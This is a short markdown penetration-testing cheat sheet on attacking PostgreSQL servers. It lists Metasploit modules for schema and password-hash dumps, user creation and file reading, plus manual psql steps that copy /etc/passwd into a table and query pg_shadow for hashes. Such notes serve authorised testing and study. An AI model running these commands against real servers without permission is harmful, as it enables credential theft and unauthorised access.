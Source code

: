 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`
`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`
`set RFILE /path/to/file.txt`
`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username>`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`

### Dump PostGreSQL Database Usernames and Password Hashes

`select usename, passwd from pg_shadow;`

## Bruteforcing Login Passwords

### Bruteforcing using Hydra

(Hydra Bruteforce)[../password-cracking/hydra.md]
